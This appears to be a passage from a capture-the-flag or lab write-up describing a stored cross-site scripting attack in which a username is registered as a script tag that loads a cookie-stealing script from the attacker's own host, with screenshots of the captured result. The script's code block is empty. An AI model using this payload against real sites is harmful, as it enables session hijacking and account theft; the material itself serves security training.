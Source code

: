 ```js
```

We can find this in HackTricks, we just needed to adapt the content to steal the cookie only:

![Pasted image 20250317143941.png](../../IMAGES/Pasted%20image%2020250317143941.png)


Now, let's register an username with the following:

```
<script src="http://10.6.34.159/cookie_steal.js"></script>
```


![Pasted image 20250317144124.png](../../IMAGES/Pasted%20image%2020250317144124.png)


We can see this in our python server:

![Pasted image 20250317144147.png](../../IMAGES/Pasted%20image%2020250317144147.png)
